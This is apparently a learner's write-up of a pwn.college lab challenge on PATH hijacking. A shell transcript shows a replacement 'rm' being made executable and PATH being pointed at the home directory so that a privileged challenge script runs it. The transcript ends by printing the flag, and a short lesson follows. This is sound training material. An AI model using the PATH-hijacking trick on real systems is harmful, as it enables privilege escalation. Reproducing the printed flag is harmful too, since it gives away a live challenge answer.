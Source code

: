 ```bash 
hacker@path~hijacking-commands:~$ chmod a=rwx rm
hacker@path~hijacking-commands:~$ PATH="/home/hacker"
hacker@path~hijacking-commands:~$ /challenge/run
Trying to remove /flag...
pwn.college{Q8PgkP4mkPOdw_9BUom9vkJft06.QX3cjM1wSO3gjNzEzW}
hacker@path~hijacking-commands:~$ 

```


## What I learned 
From this challenge, I learned that we should not get hung up on the name of the command and instead look at every command as just a script, which we can either edit, or recreate from scratch to do what we want. 

## References 
- https://pwn.college/linux-luminarium/path/
----------------------------------------------------------------------------------------------------------------------------------
